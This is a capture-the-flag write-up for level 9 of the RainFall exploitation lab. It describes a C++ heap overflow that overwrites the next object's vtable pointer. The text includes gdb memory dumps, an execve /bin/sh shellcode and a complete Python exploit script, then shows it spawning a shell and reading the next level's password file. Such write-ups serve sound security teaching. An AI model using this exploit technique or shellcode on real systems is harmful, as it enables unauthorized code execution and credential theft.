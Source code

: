 # Level 9

For the first time, we have a C++ executable, so it is a bit trickier as things get mangled a little bit.
The program allocates two instances of the class `N`. The class contains an integer and a char array.

In the function setAnnotation, we will memcpy the entirety of our argv[1] into this char array.


We can override the vtable of the next object, the table that contains the object's methods, replacing it with addresses to a  shell code in a  memory region we control, also adding a nope slide for extra peace of mind.
Let's get the address of the first object and check what it looks like in memory
```shell
level9@RainFall:~$ ltrace ./level9 ""
_Znwj(108, 0xbffff7d4, 0xbffff7e0, 0xb7d79e55, 0xb7fed280)      = 0x804a008
_Znwj(108, 5, 0xbffff7e0, 0xb7d79e55, 0xb7fed280)               = 0x804a078
[...]
+++ exited (status 11) +++
level9@RainFall:~$ gdb ./level9
(gdb) b *main+164
(gdb) r "BBBBaaaaBBBBaaaaa"
Breakpoint 1, 0x08048698 in main ()
(gdb) x/60x 0x804a008
0x804a008:      0x08048848      0x42424242      0x61616161      0x42424242
0x804a018:      0x61616161      0x00000061      0x00000000      0x00000000
0x804a028:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a038:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a048:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a058:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a068:      0x00000000      0x00000000      0x00000005      0x00000071
0x804a078:      0x08048848      0x00000000      0x00000000      0x00000000
0x804a088:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a098:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0a8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0b8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0c8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0d8:      0x00000000      0x00000000      0x00000006      0x00020f21
0x804a0e8:      0x00000000      0x00000000      0x00000000      0x00000000
```
Above we can see the vtable at the start of the first and second object, we can also see the value of `int x` near it's end.

We can confirm that the first object will overflow on the second's vtable after 108 bytes
```shell
(gdb) r $(python -c 'print "a"*108')
Starting program: /home/user/level9/level9 $(python -c 'print "a"*108')
Breakpoint 2, 0x08048698 in main ()
(gdb) x/40x 0x804a008
0x804a008:      0x08048848      0x61616161      0x61616161      0x61616161
0x804a018:      0x61616161      0x61616161      0x61616161      0x61616161
0x804a028:      0x61616161      0x61616161      0x61616161      0x61616161
0x804a038:      0x61616161      0x61616161      0x61616161      0x61616161
0x804a048:      0x61616161      0x61616161      0x61616161      0x61616161
0x804a058:      0x61616161      0x61616161      0x61616161      0x61616161
0x804a068:      0x61616161      0x61616161      0x61616161      0x61616161
0x804a078:      0x08048848      0x00000000      0x00000000      0x00000000
0x804a088:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a098:      0x00000000      0x00000000      0x00000000      0x00000000

```

Shellcode from [shell-storm.org](https://shell-storm.org/shellcode/files/shellcode-811.html): "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

t's now time to craft our exploit, we'll write our own vtable only consisting of the address of our shellcode that's coming up next, followed by a nop slide and then our shell code, right before the address of our fake vtable overwrighting the next one's.

It will look like this:
```markdown
our fake vtable (start of shellcode `0x804A05C` * 8) -> 32bytes | padding (NOP `0x90`*48) -> 48bytes | shellcode -> 28 bytes | = 108 bytes, replacing 2nd obj vtable with ours at `0x804a00C`.
```


Let's put it together in python
```python
#!/usr/bin/python
destination="\x0c\xa0\x04\x08"
start_of_shellcode="\x5c\xa0\x04\x08"
vtable=start_of_shellcode*8
padding="\x90" * 48
shellcode="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
print vtable + padding + shellcode + destination
```

```shell
# On host machine:
scp -P 4242 Resources/exploit.py level9@rainfall:/tmp/exploit.py

# On the Rainfall VM:
chmod +x /tmp/exploit.py
./level9 $(/tmp/exploit.py)
$ cat /home/user/bonus0/.pass
[redacted]
```
